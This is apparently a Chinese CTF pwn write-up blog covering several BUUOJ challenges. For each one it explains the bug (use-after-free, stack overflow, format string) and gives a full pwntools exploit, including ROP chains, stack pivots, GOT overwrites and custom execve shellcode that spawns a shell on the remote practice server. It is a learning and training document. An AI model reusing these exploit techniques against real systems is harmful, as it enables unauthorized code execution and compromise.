

# bjdctf_2020_router

0x7ffd797d1e80 - 0x7ffd797d1fc0 = -320
tcache 中的地址为与堆基址异或后的地址
从 VNCTF2021-ff 浅析 libc2.32 下 ptmalloc 新增的防护之指针异或加密 - 知乎 (zhihu.com)
# zjctf 2019 easyheap
# PicoCTF_2018_buffer_overflow_1
setegid
送分
# black watch 入群题
# inndy_rop
学了个 ROPgadget 的妙招，–ropchain 参数可以自动生成 rop 链，代码都写好了一半。
其次，找 32 位 elf 的系统调用时，用–only ‘int’
# hitcontraining_uaf
Use after free
（与 ctfwiki 的 [例题](Use After Free - CTF Wiki (ctf-wiki.org)) 一致）
这道题经典菜单，add，print，delete 三个选项。
在 add 中，程序会进行两次 malloc，第一次 malloc 一个 8 字节的空间，存放一个打印函数的地址和第二次 malloc 的地址，以下称为头块。第二次 malloc 为实际存放内容的堆块，以下称为真实块。
在 print 中，利用头块前 4 字节的打印函数的地址将真实块进行输出。
在 delete 中，free 完没有清空指针，而且 add 中分配的两个堆块均会被释放。
其次，notelist 上限为 5，释放堆块后不会清指针，因此只允许分配 5 次堆块。
存在后门函数 magic。
这题没有编辑函数，虽然有指针可以对释放后的堆块进行输出和再次释放，但不能修改。所以我原先的思路，即利用编辑函数修改 bk 指向头块输出函数地址位置，将堆块分配到其处再修改地址的方案失效。
因此这题利用关键是每次同时分配和释放的两个堆块。倘若某次申请的内存大小为 8 字节，那么分配的两个堆块大小一样，便会从同一个 bin 中取出，即 0x10 的 bin。而释放时头块进入的即是 0x10 的 bin。这样我们的真实块必然会分配到已经释放的一个头块上，对其写入 magic，调用 print 对对应的堆块输出，即可跳转到后门函数。
- 申请 note0，真实块 size 为 16（大小与 note 大小所在的 bin 不一样即可）
- 申请 note1，真实块 size 为 16（同上）
- 释放 note0
- 释放 note1
- 此时，0x20 的 fastbin chunk 中链表为 note1->note0, 0x10 的 fastbin chunk 中链表为 note1_head -> note0_head
- 申请 note2，并且设置真实块 content 的大小为 8，那么根据堆的分配规则
- note2_head 其实会分配 note1_head。
- note2 对应的 chunk 其实是 note0_head。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',28447) | |
#p=process('./hacknote') | |
#gdb.attach(p, 'b *0x08048A75') | |
target = 0x08048945 | |
def choose(x): | |
p.recvuntil(b'Your choice :') | |
p.send(str(x).encode()) | |
def mal(size, content): | |
choose(1) | |
p.sendafter(b'Note size :', str(size).encode()) | |
p.sendafter(b'Content :', content) | |
def free(index): | |
choose(2) | |
p.recvuntil(b'Index :') | |
p.send(str(index).encode()) | |
def printcont(index): | |
choose(3) | |
p.recvuntil(b'Index :') | |
p.send(str(index).encode()) | |
mal(0x10, 'aa') | |
mal(0x10, 'aa') | |
free(0) | |
free(1) | |
mal(0x8, p32(target)) | |
printcont(0) | |
p.interactive() |
# jarvisoj_test_your_memory
# cmcc_simplerop
ropchain
这题用 ROPgadget 秒解，但是需要进行修改，因为只能输入 100 个字符。
没有遇 ‘\0’ 截断的函数，所以可以把数字输入全部换成 pop 的形式。
#!/usr/bin/python3 | |
from pwn import * | |
from struct import pack | |
context(log_level='debug') | |
r=remote('node4.buuoj.cn',29465) | |
#r=process('./simplerop') | |
offset = 3 | |
p=b'a'*offset | |
p += pack('<I', 0x0806e82a) # pop edx ; ret | |
p += pack('<I', 0x080ea060) # @ .data | |
p += pack('<I', 0x080bae06) # pop eax ; ret | |
p += b'/bin' | |
p += pack('<I', 0x0809a15d) # mov dword ptr [edx], eax ; ret | |
p += pack('<I', 0x0806e82a) # pop edx ; ret | |
p += pack('<I', 0x080ea064) # @ .data + 4 | |
p += pack('<I', 0x080bae06) # pop eax ; ret | |
p += b'//sh' | |
p += pack('<I', 0x0809a15d) # mov dword ptr [edx], eax ; ret | |
p += pack('<I', 0x0806e850) # pop edx ; pop ecx ; pop ebx ; ret | |
p += p32(0) + p32(0) + p32(0x080ea060) | |
p += pack('<I', 0x080bae06) # pop eax ; ret | |
p += pack('<I', 0xb) #0xb | |
p += pack('<I', 0x080493e1) # int 0x80 | |
r.recvuntil(b'input :') | |
r.send(p) | |
r.interactive() |
# PicoCTF_2018_buffer_overflow_2
ret2text
需要注意后门函数两个参数必须为指定值才能输出 flag。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',29816) | |
#p=process('./PicoCTF_2018_buffer_overflow_2') | |
target = 0x0080485CB | |
main = 0x0804866D | |
payload = b'a'*(0x06c+4) + p32(target) + p32(main) + p32(0x0DEADBEEF) + p32(0x0DEADC0DE) | |
p.recvuntil(b'Please enter your string: \n') | |
p.sendline(payload) | |
p.interactive() |
# wustctf2020_getshell_2
ret2text
这题的栈溢出只能溢出一个返回地址加 4 字节，所以如果按以往的方法只能放一个 gadget 和其返回地址。但如果用含 call 的汇编指令，返回地址由程序按正常方式放入，就可以做到放一个 gadget 和一个参数了。
这题的字符串是一串乱码，但结尾是 sh，所以可以直接取 sh 的地址作 system 的参数。

#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',27939) | |
#p=process('./wustctf2020_getshell_2') | |
#gdb.attach(p, 'b puts') | |
offset = 0x18 +4 | |
sys = 0x8048529 | |
sh = 0x08048670 | |
payload = offset*b'a' + p32(sys) + p32(sh) | |
p.recvuntil(b'\\_\\ \n') | |
p.send(payload) | |
p.interactive() |
ps: 我有个神奇的思路，这道题没有开地址随机化，因此 libc 地址固定的，所以可以两次启动程序，第一次利用 call _puts 先泄露基地址然后找到 libc 中的 /bin/sh 字符串的地址，在第二次启动中使用。
但是本地打通了，远程没成功。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',27939) | |
#p=process('./wustctf2020_getshell_2') | |
#gdb.attach(p, 'b puts') | |
e = ELF('./wustctf2020_getshell_2') | |
puts_p = e.plt['puts'] | |
main_a = e.sym['main'] | |
lsm_g = e.got['__libc_start_main'] | |
puts_call = 0x08048577 | |
offset = 0x18 +4 | |
''' | |
payload = b'a'*offset + p32(puts_call) + p32(lsm_g) | |
print('length: %x'%len(payload)) | |
p.recvuntil(b'\\_\\ \n\n') | |
p.sendline(payload) | |
lsm_a = u32(p.recv(4)) | |
p.close() | |
p=remote('node4.buuoj.cn',27939) | |
''' | |
lsm_a = 0xf7df2540 | |
libc=LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
sys = 0x8048529 | |
payload = offset*b'a' + p32(sys) + p32(bs_a) | |
p.recvuntil(b'\\_\\ \n') | |
p.send(payload) | |
p.interactive() |

# bbys_tu_2016
ret2text
这垃圾 buu 系统不知道为啥我不先输入他什么都不显示。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',28253) | |
#p=process('./bbys_tu_2016') | |
#gdb.attach(p, 'b puts') | |
target = 0x00804856D | |
payload = b'a'*(0x0c+12) + p32(target) | |
#p.recvuntil('This program is hungry. You should feed it.') | |
p.sendline(payload) | |
p.interactive() |
# xdctf2015_pwn200
ret2libc3
# mrctf2020_easyoverflow
考查栈的理解
n0t_r3@11y_f1@g
ju3t_@_f@k3_f1@g
system (“/bin/sh”); 在主函数里，只要通过字符串比较即可执行。利用字符串溢出修改 v5 的值。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',29368) | |
#p=process('./mrctf2020_easyoverflow') | |
offset = 0x030 | |
payload = b'a'*offset + b'n0t_r3@11y_f1@g' | |
p.sendline(payload) | |
p.interactive() |
# ciscn_2019_s_4
ret2libc2 栈迁移
字符串溢出最多到返回地址处，因此将栈迁移到字符串 buf 起始位置。
在迁移前需要得知栈上地址，第一次 read 输入 0x28 字节刚好到达旧 ebp 位置，获取其地址，计算偏移为 - 0x38，得到 buf 的地址。
第二次构造 payload 时，先空出 4 字节给 ebp，然后接 system 的 plt 地址、返回地址以及字符串的地址，之后再接’/bin/sh\0’字符串。因此字符串地址应该为 buf 地址加 16。之后填充至旧 ebp 处，用 buf 地址替换旧 ebp，而返回地址填入 leave;ret 地址。
不知道 buu 在发什么颠，getshell 后就退出控制了，所以选择用 cat flag 命令。
#!/usr/bin/python3
from pwn import *
context(log_level='debug')
#e=ELF('./')
#p=process('./ciscn_s_4')
p=remote('node4.buuoj.cn',25150)
#gdb.attach(p, 'b read')
offset = 0x028
payload = b'a'*(offset-1) + b'b'
p.sendafter('your name?',payload)
p.recvuntil(b'ab')
ebp = u32(p.recv(4))
print('the ebp is 0x%x'%ebp)
buf = ebp - 0x38
sys = 0x8048400
sys_c = 0x08048559
leave_ret = 0x080485FD
payload = p32(ebp)+ p32(sys) + p32(sys_c) + p32(buf+0x10) + b'cat flag\0'
assert len(payload) <= offset
payload = payload.ljust(offset,b'a') + p32(buf) +p32(leave_ret)
p.send(payload)
p.interactive()
# *wustctf2020_closed
这题题目给了 shell 函数，直接执行 system (‘/bin/sh’) 但是执行了 close (2) 和 close (1)，关闭了标准输出和错误输出。
解决方法是用 bash 命令重定向输出到标准输入。
exec 1>&0 |

#
泄露 cca8 处的栈地址，为第 2 个格式参数。得到 ccbf，目标地址 cefc，偏移为 cefc-ccbf=23d。
字符串头取 cdcc 处，为第 (cdcc-cca0)/4=4b 个格式参数。
修改 format 末端

#
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(log_level='debug') | |
e=ELF('./axb_2019_fmt32') | |
p=process('./axb_2019_fmt32') | |
p=remote('node4.buuoj.cn',27454) | |
#gdb.attach(p, 'b *0x0804867D') | |
lsm_a = e.got['__libc_start_main'] | |
memset_g = e.got['memset'] | |
p.recvuntil('Please tell me:') | |
payload = b'%2$p' | |
p.send(payload) | |
p.recvuntil('Repeater:') | |
ret = int(p.recvuntil('\n')[:-1],16) | |
ret += 0x23d | |
print('the address of ret %#x'%ret) | |
p.recvuntil('Please tell me:') | |
payload = b'aaa' + p32(lsm_a) + b'%75$s' | |
#payload = b'aaaa'+b'%75$p' | |
p.send(payload) | |
lsm_a = u32(p.recvuntil('\xf7')[-4:]) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
libc = LibcSearcher('__libc_start_main', lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
def change(addr, content): | |
payload = b'baa' + p32(addr) + b'%'+str(content-4-12).encode() + b'd%75$hn' | |
#assert len(payload) <=6 | |
print('the address of sys %#x'%sys_a) | |
p.recvuntil('Please tell me:') | |
payload = b'baa'+fmtstr_payload(75,{memset_g:sys_a}, 12,'byte') | |
#payload = b'aaa'+fmtstr_payload(75,{ret:sys_a}, 12,'byte') | |
p.send(payload) | |
p.recvuntil('Repeater:') | |
p.send(b';/bin/sh\0') | |
p.interactive() |
# pwnable_start
ret2shellcode ret2syscall 汇编
没有栈不可执行保护，所以选择 ret2shellcode，其次该程序很简洁，函数调用均使用系统调用。
先泄露栈上地址。第一次返回后 esp 刚好指向一个栈地址。其次 write 系统调用的 buf 地址直接取当时的 esp。因此将返回地址修改到 write 前面，即可实现泄露地址。泄露的地址与 ret 后可输入的 buf 地址（即 ret 后 esp 地址）偏差为 cfdc-cfe0=4。（返回到 mov ecx, esp 处。因为 write 和 read 系统调用均已 ecx 为输入输出处，所以可控制栈内存起始处就是 esp 处。

由于只能输入 3c 个字符，0x14 处为返回地址，而之后仅剩 3c-14=0x28 个字节可输入，而 shellcode 有 2c 个字节，不够写。所以自己写一个 shellcode。
在第一次输入时顺便写入 /bin/sh 字符，第二次构造 shellocde 时直接把第一次输入的地址传入 ebx 寄存器。地址与第二次 ret 后 esp 的偏差为 (0x14+0x4)*2=0x30。之后把 eax, ecx, edx 的值分别设置即可。
sub esp, 0x030;
mov ebx, esp;
xor ecx, ecx;
xor edx, edx;
push 0xb;
pop eax;
int 0x80;
长度为 0xE
完整代码：
#!/usr/bin/python3 | |
from pwn import * | |
context(os='linux', arch='i386', log_level='debug') | |
#p=process('./start') | |
p=remote('node4.buuoj.cn',25028) | |
#gdb.attach(p, 'b 0x08048087') | |
offset = 0x014 | |
tar1 = 0x08048087 | |
payload = b'/bin/sh\0'.ljust(offset,b'a') + p32(tar1) | |
p.send(payload) | |
p.recvuntil('CTF:') | |
addr1 = u32(p.recv(4)) | |
addr2 = addr1-4 | |
assem='sub esp, 0x030; mov ebx, esp; xor ecx, ecx; xor edx, edx; push 0xb; pop eax; int 0x80;' | |
payload = asm(assem).ljust(offset,b'a') + p32(addr2) | |
p.send(payload) | |
p.interactive() |
#
# axb_2019_fmt64
64 位为寄存器传参，第 7 位参数开始才放在栈上。

可控制的字符串位置为 db50（前一个有个冒号）栈上参数起始位置为 db40
所以参数偏移为 6+(0xdb50 - 0xdb40)/0x8 = 0x8=8
已填充字符个数为 9
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(arch='amd64',log_level='debug') | |
e=ELF('./axb_2019_fmt64') | |
#=process('./axb_2019_fmt64') | |
p=remote('node4.buuoj.cn',29294) | |
#db.attach(p, 'b printf') | |
lsm_g = e.got['__libc_start_main'] | |
printf_g = e.got['printf'] | |
p.recvuntil('Please tell me:') | |
payload = b'%9$s'.ljust(8,b'a') + p64(lsm_g) | |
p.send(payload) | |
p.recvuntil('Repeater:') | |
lsm_a = u64(p.recvuntil(b'\x7f').ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
libc = LibcSearcher('__libc_start_main', lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
print('the address of sys %#x'%sys_a) | |
p.recvuntil('Please tell me:') | |
payload = fmtstr_payload(8,{printf_g:sys_a}, 9,'byte') | |
p.send(payload) | |
p.recvuntil('Repeater:') | |
p.send(b';/bin/sh\0') | |
p.interactive() |
有一点是该程序里有个 sprintf 进行字符串转移，所以转移时会被’\0’截断，并且切断后还会加个回车字符。所以地址只能取 s 变量处的而不能取 format 处的。之前 32 位程序代码几乎一样，但是我读取的是 format 处的字符串，所以迁移程序的时候卡了好久。
这个程序迁移回 32 位就简单多了。